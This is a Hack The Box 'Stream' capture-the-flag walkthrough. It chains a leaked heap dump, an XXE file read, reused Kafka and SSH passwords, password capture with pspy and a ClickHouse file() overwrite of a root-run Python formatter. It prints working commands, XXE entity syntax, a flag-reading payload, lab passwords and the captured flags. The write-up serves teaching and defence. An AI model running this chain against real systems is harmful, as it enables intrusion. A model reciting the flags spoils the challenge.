


# 🛫 HTB Stream

> **From XML parsing and leaked secrets to a root-executed Kafka quarantine handler**
>
> *A practical Linux exploitation walkthrough featuring Spring Boot, ClickHouse, Kafka, XXE, credential exposure, and a systemd trust-boundary failure.*

> [!success] ✅ MACHINE COMPLETE
> **Initial access:** `svc-infra` via SSH  
> **Privilege escalation:** ClickHouse administrator file write → root-owned Kafka DLQ drainer  
> **Flags:** `user.txt` ✅ · `root.txt` ✅  
> **Last target IP:** `10.129.14.65` (HTB IPs change when a machine is restarted)

> [!abstract] 🧭 At a glance
> | Item | Finding |
> | :--- | :--- |
> | Machine | **Stream** |
> | Platform | Hack The Box |
> | Target hostname | `htb-airport.htb` |
> | Web application | Spring Boot gateway |
> | Analytics | ClickHouse |
> | Messaging | Apache Kafka |
> | Ingestion | FastAPI endpoint consuming aviation AIDX XML |
> | Initial vulnerability | **XXE / insecure DTD and entity resolution** |
> | Initial account | `svc-infra` |
> | Final vulnerability | **Root executes a Python formatter writable via a privileged ClickHouse account** |

> [!warning] Scope and accuracy
> These notes document a completed **authorized Hack The Box lab**. Commands, accounts, and flags come from the recorded session. The IP changed from `10.129.13.198` to `10.129.14.65` after the machine was restarted. A few initial-discovery commands are presented as *reproducible examples*, not claimed to be the exact original commands.

---

## 🗺️ The complete attack path



**The key idea:** This machine was not a single exploit. It was a *chain of individually limited weaknesses*. Each one revealed just enough information or access to reach the next service.

---

## 01 · 🔎 Reconnaissance and attack-surface mapping

### Services discovered

| Endpoint / port | Technology | Why it mattered |
| :--- | :--- | :--- |
| `22/tcp` | OpenSSH | Later used for the `svc-infra` foothold |
| `80/tcp` | Nginx virtual hosts | Exposed separate Spring Boot and ClickHouse interfaces |
| `8081/tcp` | FastAPI / Uvicorn | Accepted aviation AIDX XML and forwarded it to Kafka |
| `api.htb-airport.htb` | Spring Boot 4.1.0 | Exposed its Actuator heap dump |
| `db.htb-airport.htb` | ClickHouse HTTP | SQL access after recovering credentials |
| `127.0.0.1:9092` | Kafka PLAINTEXT listener | Direct topic access after SSH |
| `127.0.0.1:9094` | Kafka SASL_PLAINTEXT listener | Its JAAS configuration leaked a reused password |
| `127.0.0.1:9000` | ClickHouse native protocol | Used by `clickhouse-client` on the machine |

> [!info] 🧩 Why virtual hosts matter
> A single open port can host multiple applications selected by the HTTP **Host** header. Checking only `http://IP/` would miss important behavior at `api.htb-airport.htb` and `db.htb-airport.htb`.

The following is an **example** of mapping the hostnames when the machine is running at the last observed address:

```bash
# On the attacker machine; update the IP if HTB assigns a new one.
echo '10.129.14.65 htb-airport.htb api.htb-airport.htb db.htb-airport.htb' | sudo tee -a /etc/hosts
```

For repeatable discovery, an example network scan is:

```bash
nmap -sC -sV -p 22,80,8081 10.129.14.65
```

### Spring Boot operational endpoints

The API gateway exposed `/health`, `/status`, and `/actuator/heapdump`.

```bash
curl -s http://api.htb-airport.htb/status
curl -s http://api.htb-airport.htb/actuator
```

The `/status` response named the service `terminal-edge-gateway` and listed four upstream dependencies: `flight-data-service`, `boarding-control`, `gate-assignment`, and `passenger-manifest`. They provided useful architectural context but did **not** themselves create a foothold.

---

## 02 · 🧠 Spring Boot heap dump → exposed credentials

### What is a heap dump?

A **Java heap dump** is a snapshot of objects held in a Java application's memory. It may include connection strings, usernames, plaintext passwords, application state, and previously processed HTTP content. It is highly sensitive even when the application itself seems harmless.

The gateway made its heap dump available without authentication:

```bash
curl -sS \
  http://api.htb-airport.htb/actuator/heapdump \
  -o /tmp/heapdump.hprof
```

The captured HPROF file was approximately **94 MB**.

### Basic terminal analysis

```bash
strings -a -n 8 /tmp/heapdump.hprof > /tmp/heapstrings.txt

grep -aEi 'svc_events|jdbc:h2|datasource|password' \
  /tmp/heapstrings.txt | tail -60
```

A Spring Boot-oriented HPROF parser (`pyhprof`) was also used, with its two parsing modes:

```bash
python3 spring_heapdumper.py -f /tmp/heapdump.hprof -t1 > /tmp/heap-t1.txt
python3 spring_heapdumper.py -f /tmp/heapdump.hprof -t2 > /tmp/heap-t2.txt
```

> [!important] 🔑 Credential recovered
> **Account:** `svc_events`  
> **Password:** `Yl4aCgh4y2PnU`  
> **Additional clue:** `jdbc:h2:mem:terminaldb;MODE=PostgreSQL;DB_CLOSE_DELAY=-1`
>
> The heap also referenced `/opt/terminal-api/terminal-api-1.0.0.jar` and application classes including `StatsController` and `DataSourceConfig`.

The recovered password was **not** sufficient for an SSH login. However, it was valid for ClickHouse. This was an example of **credential reuse across services**.

### Confirm the ClickHouse access

```bash
clickhouse-client \
  --user svc_events \
  --password 'Yl4aCgh4y2PnU' \
  --query 'SHOW GRANTS'
```

The account's effective grants were restricted to:

```text
GRANT SELECT, INSERT ON partner_feed.* TO svc_events
```

> [!note] Why this account was still valuable
> `svc_events` could not run arbitrary ClickHouse operations or write files, but it could read the **pipeline metadata and parsed flight records**. That was enough to reveal the Kafka-based application architecture and support verification of the XXE vulnerability.

---

## 03 · 📡 Map ClickHouse → Kafka → AIDX XML

### What the six tables told us

```sql
SELECT database, name, engine
FROM system.tables
WHERE database = 'partner_feed'
FORMAT PrettyCompact;
```

| Table | Engine / role |
| :--- | :--- |
| `flightleg_raw` | `MergeTree`: stores incoming raw XML |
| `flightleg_raw_kafka` | `Kafka`: consumes the raw Kafka topic |
| `flightleg_raw_mv` | Materialized view from raw topic to raw table |
| `flightleg_json` | `MergeTree`: stores parsed events as JSON |
| `flightleg_json_kafka` | `Kafka`: consumes parsed JSON events |
| `flightleg_json_mv` | Materialized view from JSON topic to JSON table |

The topic names recovered from the metadata and parser configuration were:

```text
aidx.flightleg.raw.v1
aidx.flightleg.json.v1
aidx.flightleg.dlq.v1
```

The full flow was:



> [!tip] 🔍 Generalizable lesson
> Kafka engine table definitions, materialized views, and service configuration can reveal the **data flow**, the **topic names**, and the **trust boundaries** without brute-forcing application routes.

---

## 04 · 💥 XXE in the asynchronous XML parser

### The vulnerable source code

The XML parser source was eventually recovered from:

```text
/opt/aidx-pipeline/app/aidx_common.py
```

The essential mistake was:

```python
from lxml import etree

def _plain_parser():
    return etree.XMLParser(
        load_dtd=True,
        resolve_entities=True,
        no_network=False,
    )

def safe_parse(data):
    return etree.fromstring(data, _plain_parser())
```

**Why it is vulnerable:**

- `load_dtd=True` allows DTD loading.
- `resolve_entities=True` expands XML entities.
- `no_network=False` does not disable network retrieval.
- An attacker-controlled XML document can therefore reference a local file through a `SYSTEM` entity.

### What XXE looks like

A simplified demonstration of the dangerous syntax is:

```xml
<!DOCTYPE IATA_AIDX_FlightLegNotifRQ [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
```

The entity would be referenced inside an accepted field such as:

```xml
<LegData>
  <RemarkFreeText>&xxe;</RemarkFreeText>
</LegData>
```

> [!warning] Reproduction detail
> The snippets above illustrate the exploit mechanism, **not a complete verified AIDX payload**. In the actual lab, a working local script, `/tmp/readfile.py`, constructed valid submissions, waited for Kafka processing, and extracted the expanded text from ClickHouse's `event` JSON. This avoids inventing a full request body that was not preserved in the transcript.

### Confirmed reads using the working script

```bash
/usr/bin/python3 /tmp/readfile.py /etc/hostname
/usr/bin/python3 /tmp/readfile.py /etc/passwd
/usr/bin/python3 /tmp/readfile.py /etc/systemd/system/aidx-parser.service
```

Observed findings included:

```text
/etc/hostname  → stream
/etc/passwd    → svc-infra and martin_cole accounts
```

The worker executed as `svc-infra` and used systemd protections including:

```ini
User=svc-infra
Group=svc-infra
NoNewPrivileges=true
PrivateTmp=true
ProtectSystem=strict
ProtectHome=true
ReadWritePaths=/opt/aidx-pipeline
```

> [!danger] ⚠️ Important limitation
> **XXE did not equal unrestricted filesystem access.** `ProtectHome=true` prevented the worker from reading `/home/martin_cole/user.txt` or `/root/root.txt`. This is why attempting to fetch the flags directly through XXE failed.

---

## 05 · 🔐 Kafka configuration → SSH as `svc-infra`

This was the breakthrough for initial access.

### Find the actual Kafka configuration, not a guessed path

The systemd unit revealed the Kafka installation and startup arguments:

```bash
/usr/bin/python3 /tmp/readfile.py /etc/systemd/system/kafka.service
```

Relevant section:

```ini
[Service]
User=svc-infra
Group=svc-infra
SupplementaryGroups=kafka-data
WorkingDirectory=/opt/kafka_2.13-4.3.1
ExecStart=/opt/kafka_2.13-4.3.1/bin/kafka-server-start.sh /opt/kafka_2.13-4.3.1/config/server.properties
```

That gave us the **exact** configuration path:

```bash
/usr/bin/python3 /tmp/readfile.py \
  /opt/kafka_2.13-4.3.1/config/server.properties
```

### Password in Kafka's JAAS configuration

```properties
sasl.enabled.mechanisms=PLAIN
listener.name.sasl_plaintext.plain.sasl.jaas.config=org.apache.kafka.common.security.plain.PlainLoginModule required \
  user_svc_infra="Ny2hdpme$bwT3";
```

> [!success] 🔑 Initial SSH foothold
> Kafka SASL identity: `svc_infra` (underscore)  
> Linux identity: `svc-infra` (hyphen)  
> Reused password: `Ny2hdpme$bwT3`

```bash
ssh svc-infra@10.129.14.65
# Enter password interactively: Ny2hdpme$bwT3
```

**Result:** We obtained an interactive shell as UID `1000(svc-infra)`.

The user flag was **not** in `/home/svc-infra`. The other home directory, `/home/martin_cole`, was inaccessible, so this account was an initial foothold rather than the final user-flag owner.

---

## 06 · ⏱️ Local enumeration finds a root-owned systemd timer

Once logged in as `svc-infra`, checking scheduled activity revealed a custom timer:

```bash
sudo -l
systemctl list-timers --all --no-pager
systemctl cat aidx-dlq-drainer.service
systemctl cat aidx-dlq-drainer.timer
```

`sudo -l` confirmed that `svc-infra` could not use sudo.

The critical service definition was:

```ini
# /etc/systemd/system/aidx-dlq-drainer.service
[Service]
Type=oneshot
User=root
ExecStart=/usr/bin/python3 /opt/ops/dlq_drainer.py
```

And its timer:

```ini
# /etc/systemd/system/aidx-dlq-drainer.timer
[Timer]
OnBootSec=1min
OnUnitActiveSec=2min
AccuracySec=15s
```

**Interpretation:** A root-owned job runs periodically, consumes Kafka messages, and processes quarantined XML.

### Inspect the script it runs

```bash
cat /opt/ops/dlq_drainer.py
```

The important pieces were:

```python
DLQ_TOPIC = os.environ.get("DLQ_TOPIC", "aidx.flightleg.dlq.v1")
FORMATTER = os.environ.get(
    "AIDX_FORMATTER",
    "/var/lib/clickhouse/user_files/aidx_quarantine.py"
)
CH_PW_FILE = os.environ.get("CH_PW_FILE", "/etc/partner-sync/ch.pw")
```

The root service executes the formatter via:

```python
def _format(raw):
    p = subprocess.run(
        ["python3", FORMATTER],
        input=raw,
        capture_output=True,
        check=False
    )
    parts = p.stdout.decode("utf-8", "replace").strip().split("\t")
    return tuple(parts) if len(parts) == 3 else (str(len(raw)), "UNKNOWN", "")
```

And it logs each DLQ failure using:

```python
subprocess.run([
    "clickhouse-client", "--user", "default",
    "--password", _pw(), "-q", q
], check=False)
```

> [!danger] Two distinct weaknesses in the same root script
> **1. Code trust boundary:** Root executes a Python formatter stored in ClickHouse's `user_files` area.  
> **2. Secret exposure:** Root passes the `default` ClickHouse account's password as a **command-line argument**. The script reads that password from a root-only file, but the launched process can briefly expose it.

The secret file was protected (`/etc/partner-sync/ch.pw` had `600` permissions), and the formatter was under `/var/lib/clickhouse`, which was owned by the `clickhouse` user and had `700` permissions. We therefore could not simply read or edit either file as `svc-infra`.

---

## 07 · 📮 Directly inject Kafka DLQ messages

After SSH access, we could talk to Kafka locally:

```bash
/opt/kafka_2.13-4.3.1/bin/kafka-topics.sh \
  --bootstrap-server 127.0.0.1:9092 --list
```

Observed topics:

```text
__consumer_offsets
aidx.flightleg.dlq.v1
aidx.flightleg.json.v1
aidx.flightleg.raw.v1
```

A simple direct message was enough to trigger the drainer's handling logic:

```bash
printf 'STREAM-DLQ-TEST\n' | \
/opt/kafka_2.13-4.3.1/bin/kafka-console-producer.sh \
  --bootstrap-server 127.0.0.1:9092 \
  --topic aidx.flightleg.dlq.v1
```

To check whether the consumer group was caught up:

```bash
/opt/kafka_2.13-4.3.1/bin/kafka-consumer-groups.sh \
  --bootstrap-server 127.0.0.1:9092 \
  --describe --group aidx-dlq-drainer
```

The result included:

```text
CURRENT-OFFSET  20
LOG-END-OFFSET  20
LAG             0
```

> [!tip] What `LAG = 0` means
> The group's committed offset matched the end of the topic. No unconsumed messages were waiting at the time of the check. **“No active members” was normal** because the timer starts a short-lived consumer rather than a continuously running one.

**Crucially:** The drainer's `_record(...)` is called once per consumed message, even when the payload is not valid XML. Direct DLQ messages therefore create repeated opportunities to observe the root-owned ClickHouse client.

---

## 08 · 👀 Capture the ClickHouse `default` password from process arguments

### Why normal `ps` was initially misleading

This command showed the root-owned client, but the password had already been hidden:

```bash
ps -eo user,args --no-headers | grep '[c]lickhouse-client --user default'
```

Observed pattern:

```text
root  clickhouse-client --user default --password               -q INSERT INTO ...
```

The password appears in the `exec` arguments briefly, then the ClickHouse client masks it. A normal process snapshot often misses that brief exposure.

### Use `pspy` to catch a short-lived command

`pspy` is a process monitor that can run without root access. In our successful attempt, it scanned at **1 ms** intervals.

**Terminal 1 — on Stream:**

```bash
/tmp/pspy64 -i 1 | \
  grep --line-buffered 'clickhouse-client' | \
  tee /tmp/ch-capture.log
```

**Terminal 2 — on Stream:**

```bash
for i in $(seq 1 30); do
  echo "CAPTURE-$i"
done | /opt/kafka_2.13-4.3.1/bin/kafka-console-producer.sh \
  --bootstrap-server 127.0.0.1:9092 \
  --topic aidx.flightleg.dlq.v1
```

The DLQ timer's next run can be checked without guessing:

```bash
systemctl list-timers aidx-dlq-drainer.timer --no-pager
```

> [!success] 🎯 Password captured
> At `09:01:44` UTC, the monitor caught a root-owned ClickHouse client **before its arguments were masked**:
>
> ```text
> UID=0  | clickhouse-client --user default --password N3v3rs33nD4T4 -q INSERT INTO aidx_ops.failed_ingest ...
> ```
>
> **Username:** `default`  
> **Password:** `N3v3rs33nD4T4`

> [!warning] Timing matters
> This was not guaranteed on the first attempt. Earlier polling with `ps` or Python either missed the password or saw a blank argument. `pspy -i 1` finally captured several executions before masking. This technique relies on **process creation timing**, not brute-forcing or bypassing the protected password file.

---

## 09 · 🗝️ ClickHouse administrator grants and file writes

Now authenticate as the account the drainer actually uses:

```bash
clickhouse-client \
  --user default \
  --password 'N3v3rs33nD4T4' \
  --query 'SELECT currentUser(); SHOW GRANTS'
```

The query returned `default`, and its grants included **`FILE`**. Unlike `svc_events`, this account could use the server-side `file()` table function.

### Harmless proof of file-write capability

```bash
clickhouse-client \
  --user default \
  --password 'N3v3rs33nD4T4' \
  --query "INSERT INTO FUNCTION file('stream_probe_root.txt', 'LineAsString', 'line String') VALUES ('WRITE_CONFIRMED')"
```

**It succeeded.** The important distinction is that this write is performed by the **ClickHouse server process** (as the `clickhouse` Linux user), not by the current `svc-infra` shell.

### Read the formatter through the server

```bash
clickhouse-client --user default --password 'N3v3rs33nD4T4' \
  --query "SELECT line FROM file('aidx_quarantine.py', 'LineAsString', 'line String') FORMAT TSVRaw"
```

The original formatter was a small Python program that:

1. Read raw bytes from `stdin`.
2. Found an approximate XML root tag.
3. Produced a short preview of the content.
4. Printed three tab-separated fields: `byte_len`, `root_tag`, and `preview`.

That matters because **the root drainer unconditionally executes this formatter for every DLQ message**. It doesn't validate its Python implementation or verify integrity.

### The permission difference, explained

| Technique | Execution identity | Result |
| :--- | :--- | :--- |
| `clickhouse-client` as `svc_events` | Server account with limited SQL grants | `WRITE ON FILE` denied |
| `clickhouse local` as `svc-infra` | Local Linux account `svc-infra` | Could write `/tmp`, **not** `/var/lib/clickhouse` |
| `clickhouse-client` as `default` | ClickHouse **server** handles the file operation | **Can write under its protected `user_files` directory** |

> [!important] 🔓 The real missing link
> The breakthrough was **not** another Linux filesystem bypass. It was recovering credentials for a ClickHouse account that already had permission to make the **server** write into its own `user_files` directory.

---

## 10 · 👑 Root execution through the quarantine formatter

> [!danger] ⚠️ Live-file modification
> The following is the **verified HTB exploitation sequence**. It modifies a production-like application file *within this lab*. Back up the original and restore it after capturing the flags. Do not run these commands against systems outside your authorization.

### A. Back up the original Python formatter

```bash
clickhouse-client --user default --password 'N3v3rs33nD4T4' \
  --query "SELECT line FROM file('aidx_quarantine.py', 'LineAsString', 'line String') FORMAT TSVRaw" \
  > /tmp/aidx_quarantine.original.py
```

### B. Prepare a minimal Python payload

```bash
cat > /tmp/stream_payload.py <<'PY'
import pathlib

paths = list(pathlib.Path("/home").glob("*/user.txt")) + [
    pathlib.Path("/root/root.txt")
]

result = []
for p in paths:
    try:
        result.append(f"{p}: {p.read_text().strip()}")
    except Exception as e:
        result.append(f"{p}: {e}")

out = pathlib.Path("/tmp/stream_flags.txt")
out.write_text("\n".join(result) + "\n")
out.chmod(0o644)
PY
```

**What this does:** Once invoked as root, the script locates user flags under `/home`, reads `/root/root.txt`, and writes the results to a world-readable file in `/tmp` for the existing SSH user to retrieve. It does **not** create a reverse shell or alter system accounts.

### C. Replace the formatter using ClickHouse's server-side `file()`

```bash
clickhouse-client --user default --password 'N3v3rs33nD4T4' \
  --query "INSERT INTO FUNCTION file('aidx_quarantine.py', 'LineAsString', 'line String') SETTINGS engine_file_truncate_on_insert=1 FORMAT LineAsString" \
  < /tmp/stream_payload.py
```

`engine_file_truncate_on_insert=1` tells the File engine to **truncate the existing file before inserting**, instead of appending the payload to the original script.

The write was verified with:

```bash
clickhouse-client --user default --password 'N3v3rs33nD4T4' \
  --query "SELECT line FROM file('aidx_quarantine.py', 'LineAsString', 'line String') FORMAT TSVRaw"
```

The returned content matched our Python payload.

### D. Trigger the root-owned DLQ handler

```bash
echo 'FINAL-TRIGGER' | \
/opt/kafka_2.13-4.3.1/bin/kafka-console-producer.sh \
  --bootstrap-server 127.0.0.1:9092 \
  --topic aidx.flightleg.dlq.v1
```

The root-owned timer ran `dlq_drainer.py`, which launched:

```python
subprocess.run(["python3", FORMATTER], input=raw, capture_output=True)
```

**Because `FORMATTER` now pointed to our replacement Python code, it executed with root privileges.**

### E. Retrieve the flags

```bash
cat /tmp/stream_flags.txt
```

The initial check returned “No such file or directory” because the timer hadn't run yet. A subsequent check, after it fired, returned both flags.

> [!success] 🏁 Captured flags
> ```text
> /home/martin_cole/user.txt: e68e63dd4df08079f4461d9742ebd9ff
> /root/root.txt: 5ae6118887c5505e58436bbae40c181e
> ```
>
> **User flag:** `e68e63dd4df08079f4461d9742ebd9ff`  
> **Root flag:** `5ae6118887c5505e58436bbae40c181e`

### F. Restore the original formatter — don't skip this

```bash
clickhouse-client --user default --password 'N3v3rs33nD4T4' \
  --query "INSERT INTO FUNCTION file('aidx_quarantine.py', 'LineAsString', 'line String') SETTINGS engine_file_truncate_on_insert=1 FORMAT LineAsString" \
  < /tmp/aidx_quarantine.original.py
```

Validate that the original source is back:

```bash
clickhouse-client --user default --password 'N3v3rs33nD4T4' \
  --query "SELECT line FROM file('aidx_quarantine.py', 'LineAsString', 'line String') FORMAT TSVRaw" \
  | head -12
```

Expected opening lines:

```python
#!/usr/bin/env python3
import sys

def main():
```

> [!warning] Session note
> The transcript **confirms the flag capture**, but does **not** show the restoration command being executed. Run the restoration command on the active lab instance if you have not done so already. Do not describe the environment as restored until you verify it.

---

## 11 · 🧯 Dead ends and why they failed

Understanding the unsuccessful tests is part of understanding the box.

| Attempt | Result | Lesson |
| :--- | :--- | :--- |
| SSH with `svc_events` credentials | Authentication failed | Database credentials do not necessarily map to Linux users |
| XXE read of Martin's home or `/root` | Blocked | `ProtectHome=true` constrained the parser process |
| `INSERT INTO FUNCTION file()` as `svc_events` | `WRITE ON FILE` access denied | SQL grants matter |
| `SELECT ... INTO OUTFILE` over ClickHouse HTTP | `INTO_OUTFILE_NOT_ALLOWED` | Not an alternative permission bypass |
| `clickhouse local` file write | Worked in `/tmp` only | Local SQL execution does not bypass Linux permissions |
| `sudo -l` as `svc-infra` | No sudo rights | Not a sudo-based escalation |
| Python `os.setuid(0)` | `PermissionError` | Python had **no `cap_setuid` capability** |
| Reading protected ClickHouse directory | `Permission denied` | Directory traversal rights matter |
| Process capture using normal `ps` | Secret usually blank | Short-lived secrets can be masked before a snapshot |
| `pspy` with too little monitoring time | No useful event | The timer runs roughly every two minutes |
| Searching unrelated library files | Lots of noise | Follow actual service metadata and known paths |

> [!quote] The turning point
> **We did not need to escalate the `svc_events` account. We needed to notice that a *different*, more privileged ClickHouse account was already used by the root drainer—and that its password was briefly visible in process arguments.**

---

## 12 · 🧠 Concepts worth remembering

| Concept | Plain-English explanation | Where it appeared |
| :--- | :--- | :--- |
| **XXE** | XML external entities cause a parser to pull content from outside the XML input | AIDX `lxml` parser |
| **DTD** | Document Type Definition; can declare XML entities | Malicious AIDX XML |
| **Kafka topic** | Named stream of messages | `raw`, `json`, and `dlq` topics |
| **DLQ (dead-letter queue)** | Holds messages rejected by normal processing | `aidx.flightleg.dlq.v1` |
| **Materialized view** | Automatically transforms/moves data as it is ingested | ClickHouse pipeline tables |
| **HPROF / heap dump** | Snapshot of Java objects retained in memory | Spring Boot `/actuator/heapdump` |
| **SASL/PLAIN** | Authentication mechanism that uses usernames and passwords | Kafka `server.properties` |
| **Systemd timer** | Schedules a systemd service to run at particular intervals | Root DLQ drainer |
| **Linux DAC** | File/directory ownership and mode-based access controls | Protected `/var/lib/clickhouse` |
| **ClickHouse `file()`** | Table function that reads/writes files from the server-side environment, subject to privileges and path rules | Formatter overwrite |
| **Process argument exposure** | Secrets supplied as program arguments may be visible in process listings briefly | Root `clickhouse-client` |
| **Trust boundary** | Point where data or code from one privilege domain is used by another | Root running ClickHouse-managed Python code |

### Why the final chain was possible

The individual vulnerabilities had different boundaries:

1. **Information disclosure:** Java heap dump exposed a database credential.
2. **Insecure parsing:** XXE exposed readable system and service files.
3. **Password reuse:** Kafka SASL password also worked for Linux SSH.
4. **Credential exposure:** Root passed the ClickHouse administrator password as a process argument.
5. **Excessive trust:** Root executed a script that the ClickHouse server account could overwrite.
6. **Attacker-controlled trigger:** Kafka accepted messages on the DLQ, causing repeated execution of the root workflow.

No single issue needed to defeat every defense. The **chain connected the domains**.

---

## 13 · 🛡️ Defensive takeaways

> [!tip] 🔒 How to prevent this attack chain
> **Disable dangerous XML entity behavior.** Avoid loading external DTDs and resolving entities for untrusted XML.  
> **Restrict sensitive Actuator endpoints.** A heap dump must not be exposed anonymously.  
> **Use unique secrets per identity.** Kafka SASL credentials should not double as SSH passwords.  
> **Keep secrets out of command-line arguments.** Prefer protected configuration/secret delivery that does not expose credentials through `/proc`.  
> **Separate writable data from executable code.** A root service should not execute Python code maintained in another service's data directory.  
> **Constrain privileged jobs.** Apply systemd hardening and integrity controls to root-owned scheduled scripts.  
> **Protect the Kafka DLQ.** Message production should be authenticated and authorized, particularly when privileged consumers process its contents.

---

## 🏁 Final recap

> [!success] The full chain in one sentence
> **Exposed Java heap dump → ClickHouse metadata → XXE → Kafka SASL credential → SSH as `svc-infra` → root-owned DLQ timer → observe ClickHouse `default` password in process arguments → server-side `file()` overwrite → trigger DLQ → root executes our Python → both flags captured.**

**The lesson from Stream:** *Understand what each service trusts, who owns the data it processes, and which security boundary is crossed when that data becomes executable code.*

---

<small>**Lab provenance:** Prepared from the commands, configuration files, tool output, and confirmed flags observed during the completed Hack The Box Stream session on 11 October 2026. This note intentionally distinguishes confirmed facts from illustrative command examples.</small>
